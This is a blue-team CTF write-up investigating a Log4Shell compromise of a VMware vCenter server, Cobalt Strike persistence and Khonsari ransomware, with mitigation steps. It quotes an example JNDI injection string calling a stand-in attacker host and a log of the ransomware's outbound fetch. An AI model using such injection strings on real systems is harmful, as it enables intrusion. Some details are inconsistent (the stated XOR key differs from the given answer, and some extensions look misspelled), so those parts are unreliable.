<!-- notion-metadata-start -->
*📅 Published: 2026-04-22 17:30 | 🔄 Last Updated: 2026-05-14 21:09*
<!-- notion-metadata-end -->
---


[https://cyberdefenders.org/blueteam-ctf-challenges/detectlog4j/](https://cyberdefenders.org/blueteam-ctf-challenges/detectlog4j/)


## Log4Shell (CVE-2021-44228) {#34a7b0eb61a48071b5e8d6db8e901371}


Log4shell is one of the most infamous vulnerability.

- an open-source logging library created by Apache.
- extensively deployed across enterprise enviroments to record runtime events, authentication attempts and system errors.
- The vulnerability resides within JNDI lookup (java naming and directory interface).
	- JNDI is “too” smart, when it received a request, but the information is not on the server, it will initial outbound connection to the internet to retrieve the data.
	- Threat actors can exploit this vulnerability and inject malicious code into requests to server (e.g., `$[jndi:ldap://hacker-infra.com/malware].` )
- Due to the trivial nature of exploitation and severe impact, the CVSS is 10/10

### Q1 What is the version of the VMware product installed on the machine? {#34a7b0eb61a480e29b4fefd234d62183}


By inspecting the machine’s SOFTWARE hive, specifically the `uninstall` key, DisplayVersion holds the software installation version.





> 6.7.0


### Q2 What is the version of the log4j library used by the installed VMware product? {#34a7b0eb61a480179ebddb4609c1f2f5}


By searching the ProgramData directory for log4j files reveals multiple components. The files identified in `D:\ProgramData\VMware\vCenterServer\runtime\` include `log4j-core-2.11.2`, `log4j-api-2.11.2`, and `log4j-slf4j-impl-2.11.2`, indicating version 2.11.2 is in use.





> 2.11.2


### Q3 The attacker used the log4shell.huntress.com payload to detect if vcenter instance is vulnerable. What is the first link of the log4huntress payload? {#34a7b0eb61a480a19f9cc58b79f71ac1}


To detect whether attacker has attempted to exploit Log4Shell, navigate to `D:\ProgramData\VMware\vCenterServer\runtime\VMwareSTSService` 


and check the websso log, which records event related to SSO anthentication.


```sql
findstr /i "log4shell.huntress.com" websso.log
```


> log4shell.huntress.com:1389/b1292f3c-a652-4240-8fb4-59c43141f55a


### Q4 What is the attacker's IP address? {#34a7b0eb61a4805ab616e3d86cf55dfa}





The attacker’s IP address is also identified in previous question


> 192.168.112.128


### Q5 After exploiting the Log4j vulnerability and confirming the vCenter instance's vulnerability using the `X-Forwarded-For` header with port 1389, the attacker established a reverse shell to gain further control of the system. Identify the port explicitly used to receive the Cobalt Strike reverse shell. {#34a7b0eb61a48090a903d6a8f0c8f866}


Cobalt Strike is usually used with a Base64 encoded PowerShell command. By heading to `Microsoft-Windows-PowerShell%4Operational.evtx` and looking for event ID 4104: 





Reviewing the `consolehost_history.txt` file in `D:\Users\``Administrator.WIN-B633EO9K91M``\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline` revealed the similar command (base64 encoded)





By decoding the command and gunzip on cybechef





Continue the previous step





Here we can see the user-agent, ip but not the port


I then switched to Fakenet, run the powershell code and got the result





> 1337


### Q6 What is the script name published by VMware to mitigate log4shell vulnerability? {#34a7b0eb61a480e88a72d3fb851047e6}


I did a quick research on google, and according to official VMware workaround documentation, the vc_log4j_mitigator.py is used to mitigagte the vulnerability.


you can visit this link for more technical details:


[https://knowledge.broadcom.com/external/article?legacyId=87081](https://knowledge.broadcom.com/external/article?legacyId=87081)


> vc_log4j_mitigator


### Q7 In some cases, you may not be able to update the products used in your network. What is the system property needed to set to 'true' to work around the log4shell vulnerability? {#34a7b0eb61a4809a9a56c925ba246c90}


Setting `-Dlog4j2.formatMsgNoLookups=true` in the Java startup parameters or system properties disables the vulnerable message lookup feature.


> log4j2.formatMsgNoLookups


### Q8 [Google Search] During your investigation into the Log4j vulnerability CVE-2021-44228, which allows for remote code execution through attacker-controlled LDAP endpoints, identify the earliest version of Log4j that introduced a patch to mitigate this critical vulnerability. {#34a7b0eb61a4801792bbde23b30c41ad}


Apache released Log4j version 2.15.0 as the initial fix for this vulnerability.


>  2.15.0


### Q9 Removing JNDIlookup.class may help in mitigating log4shell. Analyze JNDILookup.class. What is the value stored in the CONTAINER_JNDI_RESOURCE_PATH_PREFIX variable? {#34a7b0eb61a4804db3fdf66392ceb335}


Utilizing JD-gui , a java decompilation tool, i inspected the log4j-core.jar file to examine the JndiLookupClass





> java:comp/env/


### Q10 What is the executable used by the attacker to gain persistence? {#34a7b0eb61a480dd8c51e5168e4c6254}


By inspecting all the possible registry key which can be exploited by attacker for persistence. I came across the RunOnce key in  `D:\Users\Administrator.WIN-B633EO9K91M\NTUSER.DAT`





 `baaaackdooor.exe`


### Q11 The ransomware downloads a text file from an external server. What is the key used to decrypt the URL? {#34a7b0eb61a48099ae70d6eff681e1a0}





**Khonsari** is a malicious ransomware strain (often classified as a **wiper**) that first emerged in December 2021. It gained notoriety as one of the first ransomware families to exploit the critical **Log4Shell** vulnerability (CVE-2021-44228) in the Apache Log4j logging library to target Windows servers and self-hosted **Minecraft** servers.  Khonsari ransomware is developed as a .NET binary file


and dnSpy is a powerful tool to analyze and decompile .NET file.


Inspecting the compiled code revealed that hacker downloaded strings from external server. 





and `VnNtUrJn` acts as a XOR key to encrypt the strings





> GoaahQrC


### Q12 What is the ISP that owns that IP that serves the text file?. Use your host for this question as the machine does not have an internet connection. {#34a7b0eb61a4809abde1f49867eb6a41}


:::tip

"Unescape string" operation converts "escaped" character sequences back into their literal, original characters or raw binary bytes.
- Control characters: It turns sequences like `\n` into an actual line break, or `\t` into a tab space.

- Byte values: It converts hexadecimal or Unicode representations (like `\x41` or `\u0016`) directly into their exact binary byte equivalents in memory.

:::





We already had the key and the strings, i then used cyberchef to decrypt it, which revealed the attacker’s ip: 3.145.115.94. By using a whois ip lookup, we can get the answer:


> amazon


The dynamic analysis approach: executing Khonsari and employing FakeNet to inspect the ransomware network activity also yield the same result: 


```sql
04/22/26 11:46:45 AM [          Diverter] khonsari.exe (4384) requested TCP 3.145.115.94:80
04/22/26 11:46:45 AM [    HTTPListener80]   GET /zambos_caldo_de_p.txt HTTP/1.1
04/22/26 11:46:45 AM [    HTTPListener80]   Host: 3.145.115.94
04/22/26 11:46:45 AM [    HTTPListener80]   Connection: Keep-Alive
```


### Q13 The ransomware check for extensions to exclude them from the encryption process. What is the second extension the ransomware checks for? {#34a7b0eb61a48000893dd121ae3fa7e3}


Reviewing the ransomware’s source reveals that it explicitly checks for and intentionally skips three specific file extensions.





As we did in the previous question, cyberchef proved to be useful here: 





Same process the the 2 left. And the 3 extensions are:

- khosari: not to encrypt the ransomware itself
- ini, ink: to prevent from crashing victim’s system.

> `ini`

